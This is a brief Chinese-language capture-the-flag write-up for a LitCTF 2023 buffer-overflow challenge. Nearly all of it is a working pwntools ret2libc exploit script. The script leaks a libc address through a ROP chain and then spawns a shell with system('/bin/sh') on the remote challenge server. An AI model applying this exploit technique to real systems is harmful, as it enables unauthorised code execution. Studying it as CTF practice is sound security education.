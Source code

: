[[LitCTF 2023]狠狠的溢出涅~ | NSSCTF](https://www.nssctf.cn/problem/3877)
![[Pasted image 20240901145638.png]]
普通的ret2libc，需输入`\x00`防止if判断
exp:
```python
from pwn import *

local = False
context(arch='amd64', os='linux', log_level='debug')
elf = ELF('./pwn4')
libc = ELF('./libc-2.31.so')
if local:
    p = process('./pwn4')
    pwnlib.gdb.attach(p, 'b main')
else:
    p = remote("node4.anna.nssctf.cn", 28296)
p.recvuntil("message:")
ret = 0x400556
rdi = 0x4007d3
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main = 0x4006B0

payload = b'\x00' + b'a'* (0x60 + 7) + p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
p.sendline(payload)
p.recvuntil("Received\n")
addr = u64(p.recvuntil('\x7f').ljust(8, b'\x00'))
log.success("puts real addr: " + hex(addr))

base = addr - libc.sym['puts']
system = base + libc.sym['system']
binsh = base + libc.search(b'/bin/sh').__next__()

payload = b'\x00' + b'a'* (0x60 + 7) + p64(ret) + p64(rdi) + p64(binsh) + p64(system)
p.sendlineafter("message:", payload)
p.interactive()
```
PS：终于见到给libc的题目了，但不妨碍本地的wsl泄露不了地址TNT，远程通
